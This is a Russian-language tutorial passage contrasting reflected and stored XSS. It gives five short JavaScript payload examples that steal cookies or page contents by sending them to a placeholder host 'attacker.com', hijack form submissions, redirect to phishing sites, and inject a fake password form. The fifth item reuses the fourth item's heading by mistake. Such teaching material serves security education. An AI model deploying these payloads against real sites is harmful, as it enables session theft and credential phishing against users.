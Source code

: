 
Эксплуатация отражённой XSS (Cross-Site Scripting) отличается от хранимой XSS в первую очередь механизмом выполнения и охватом атаки. В отличие от хранимой XSS, где вредоносный код сохраняется на сервере и выполняется для всех пользователей, отражённая XSS требует, чтобы жертва выполнила специально подготовленный запрос (например, перешла по вредоносной ссылке). Это делает её более точечной и зависимой от действий пользователя. Однако, при умелом использовании социальной инженерии, отражённая XSS может быть не менее опасной, чем хранимая.

## Варианты эксплуатации отражённой XSS

1. **Для кражи файлов cookie**  
    Злоумышленник может внедрить JavaScript-код, который отправляет cookie пользователя на контролируемый сервер. Это позволяет получить доступ к сессии жертвы и, возможно, к её учетной записи.  
	Пример кода:
```
<script>document.location='http://attacker.com/steal?cookie='+document.cookie;</script>
```
или
```
<script> fetch('https://attacker.com', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```

2. **Изменение данных пользователей**  
    С помощью внедрённого скрипта можно изменить данные, которые пользователь отправляет на сервер. Например, изменить пароль, email или другие личные данные.  
    Пример кода:
```
<script>document.forms[0].action='http://attacker.com/steal';</script>
```

3. **Перенаправление на вредоносные сайты**  
    Злоумышленник может перенаправить пользователя на фишинговый сайт, который имитирует легитимный ресурс, чтобы украсть учётные данные или другую конфиденциальную информацию.  
    Пример кода:
```
<script>window.location='http://phishing-site.com';</script>
```
    
4. **Кража данных из DOM**  
    Внедрённый скрипт может извлекать данные из DOM (Document Object Model) страницы, такие как токены CSRF, личные сообщения или другие чувствительные данные, и отправлять их злоумышленнику.  
    Пример кода:
```
<script>fetch('http://attacker.com/steal', {method: 'POST', body: document.body.innerHTML});</script>
```

5. **Кража данных из DOM**  
    Злоумышленник может изменить внешний вид страницы, добавив поддельные формы или элементы, чтобы обмануть пользователя и заставить его ввести конфиденциальные данные.  
    Пример кода:
```
<script>document.body.innerHTML = '<form action="http://attacker.com/steal"><input type="text" name="password"><input type="submit"></form>';</script>
```